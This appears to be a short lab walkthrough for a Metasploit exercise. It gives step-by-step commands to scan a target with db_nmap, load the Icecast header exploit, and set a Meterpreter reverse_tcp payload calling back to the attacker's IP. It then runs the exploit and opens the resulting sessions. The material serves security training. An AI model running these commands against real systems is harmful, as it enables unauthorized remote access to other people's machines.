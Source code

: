 # Task 5

## Run nmap and feed it's results into the database

```bash
db_nmap -sV 'BOX-IP' -vv
```

## See the list of services in a list

```bash
services
```

## Information collected into the database

```bash
hosts
```

## See vulnerabilities

```bash
vulns
```

## Use an exploit

```bash
use icecast
exploit/windows/http/icecast_header
```

## Use an exploit shorthand

```text
# 'exploit ID'
```

## set the payload using this command

```bash
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 'YOUR_IP'  # run 'ip addr'
```

## select target

```bash
set RHOSTS 'BOX_IP'
```

## Run the exploits via

```bash
exploit
run -j # this will run it in the background
```

## See jobs

```bash
jobs
```

## List sessions

```bash
sessions
sessions -i 'session_number'
```
